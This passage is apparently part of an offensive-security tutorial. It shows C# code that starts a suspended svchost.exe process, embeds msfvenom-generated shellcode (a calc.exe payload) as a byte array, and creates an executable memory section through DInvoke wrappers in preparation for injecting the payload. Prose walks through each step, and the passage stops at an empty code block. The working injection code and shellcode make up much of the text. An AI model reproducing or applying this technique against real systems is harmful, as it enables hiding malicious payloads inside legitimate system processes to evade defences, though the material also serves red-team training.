 ```csharp
			Structs.PROCESS_INFORMATION pi = new Structs.PROCESS_INFORMATION();
			Structs.SECURITY_ATTRIBUTES lpa = new Structs.SECURITY_ATTRIBUTES();
			Structs.SECURITY_ATTRIBUTES lta = new Structs.SECURITY_ATTRIBUTES();
            		bool succ = CreateProcess(null, "C:\\windows\\system32\\svchost.exe", ref lpa, ref lta, false, Structs.ProcessCreationFlags.CREATE_SUSPENDED, IntPtr.Zero, null, ref si, out pi);
			if (succ)
			{
				Console.WriteLine("[+] Process Created");
			}
			//msfvenom -p windows/x64/exec CMD="calc.exe" EXITFUNC=thread -f csharp
			byte[] buf = new byte[276] 
			{
				0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
				0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
				0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
				0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
				0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
				0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
				0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
				0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
				0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
				0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
				0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
				0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
				0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
				0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
				0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
				0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
				0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
				0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,
				0x63,0x2e,0x65,0x78,0x65,0x00 
			};
		}
	}
}
```
The first few lines of the main function instantiate some data types. We will then use `CreateProcess` to create a svchost process as our victim and pass in a `Structs.PROCESS_INFORMATION` struct (`si`) by reference that will update this data; this variable will now contain information about the process we created. Some things to note: we won't have to create delegates and function wrappers for the Native APIs that we are using because rasta-mouse's repo and which already has them implemented. Also, the values being set at the end of some of my delegate wrappers `CreateProcess` and `CreateRemoteThread` are necessary because the respective delegates update the variable being passed in, but since an object array, which contains copies of the values, is being passed in, the actual variable value is never updated. Next, add the following to the `Main`  function
```csharp
 IntPtr sectionHandle = IntPtr.Zero;
 ulong maxSize = (uint)buf.Length;
 uint SECTION_ALL_ACCESS = 0x0F001F;
 uint PAGE_EXECUTE_READWRITE = 0x40;
 uint SEC_COMMIT = 0x8000000;
 DynamicInvoke.Native.NtCreateSection(ref sectionHandle, SECTION_ALL_ACCESS, IntPtr.Zero, ref maxSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, IntPtr.Zero);
```
We'll need a pointer that can be used to point to the location of the section, so we'll use `sectionHandle`. The `maxSize` is the max size of the section; we'll just use our payload size. The other values are constants that will give the section certain properties. The value of `SECTION_ALL_ACCESS` is an ACCESS_MASK value gives full access to anybody accessing this section (we'll need this since we plan to make the victim process access this section). `PAGE_EXECUTE_READWRITE` will make the memory pages in this section read, write, and executable. `SEC_COMMIT` will apply these properties to the section. The other values are `IntPtr.Zero` which serves as a default value. For more information, view the <a href="https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntcreatesection"> Microsoft documentation</a>. Next, add the following:
```csharp
```